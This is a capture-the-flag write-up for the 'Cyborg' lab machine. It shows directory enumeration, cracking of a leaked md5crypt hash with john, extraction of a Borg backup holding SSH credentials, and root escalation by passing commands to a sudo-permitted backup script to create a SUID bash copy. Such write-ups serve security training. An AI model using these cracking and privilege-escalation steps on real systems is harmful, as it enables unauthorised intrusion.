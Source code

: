 # Cyborg

## Nmap
```
2 ports

22 ssh
80 http
```


## gobuster

```
$ gobuster dir -u http://10.10.73.15 -w /usr/share/wordlists/dirb/small.txt -x php,html,txt,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.73.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 310] [--> http://10.10.73.15/admin/]
/etc                  (Status: 301) [Size: 308] [--> http://10.10.73.15/etc/]
/index.html           (Status: 200) [Size: 11321]
Progress: 4795 / 4800 (99.90%)
===============================================================
Finished
===============================================================
```

## /etc/

<img src="images/etc.png">
<img src="images/passwd.png">
<img src="images/squid.png">

music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

<img src="images/hash.png">

```
$ cat hash.txt
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
                                                     
$ john hash.txt --format=md5crypt --wordlist=/home/kali/Desktop/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)     
1g 0:00:00:00 DONE (2023-10-14 12:04) 1.086g/s 42365p/s 42365c/s 42365C/s wonderfull..samantha5
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


## admin

Here we can see and landing page a admin.html page asl well as an archive.tar.

**Admins messages**:

```
############################################
[Today at 5.45am from Alex]
Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
I decided to give up like i always do ahahaha sorry about that.
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
############################################
```

**Archive**

It is a Borg backup.

Using Borg recreate to extract the archive and the password **squidward** that we got from earlier.

I need to run this as sudo for some reason. maybe because of the reason explained here, idk https://www.reddit.com/r/BorgBackup/comments/m93umf/cache_or_information_obtained_from_the_security/?rdt=44748

```
                                                                                 
┌──(kali㉿kali)-[~/Desktop/Cyborg]
└─$ sudo borg extract archive/home/field/dev/final_archive::music_archive    
Enter passphrase for key /home/kali/Desktop/Cyborg/archive/home/field/dev/final_archive: 
                                                                                 
┌──(kali㉿kali)-[~/Desktop/Cyborg]
└─$ ls
archive  hash.txt  home  images  README.md
                                            
```

Files inside this folder

```
find ./ -type f 
./alex/Desktop/secret.txt
./alex/.profile
./alex/.dbus/session-bus/c707f46991feb1ed17e415e15fe9cdae-0
./alex/.bashrc
./alex/.config/sublime-text-3/Local/Auto Save Session.sublime_session
(....)
./alex/.config/sublime-text-3/Cache/Diff/Diff.sublime-syntax.cache
./alex/.bash_history
./alex/.bash_logout
./alex/Documents/note.txt
```

```
cat home/alex/Desktop/secret.txt
shoutout to all the people who have gotten to this stage whoop whoop!"

cat home/alex/Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
                    
```

## SSH

The previous credentials are ssh creds

## Priv Esc 

```
-bash-4.3$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

We dont have write permission to the file but we can read it


We can see an argument -c can be passed in and it will run  command
```
(.....) 

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done

(.....) 

cmd=$($command)
echo $cmd

```

**Trying this with whoami**

```
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c whoami
(...)


Backup finished
root
```

### Running a sequence of commands to get a suid bash

* ``` sudo /etc/mp3backups/backup.sh -c "cp /bin/bash /tmp/mal_bash"```
* ```sudo /etc/mp3backups/backup.sh -c "chmod +s /tmp/mal_bash"```

* ```
    alex@ubuntu:~$ /tmp/mal_bash -p
    mal_bash-4.3# whoami
    root
    ```


then we just get all the flags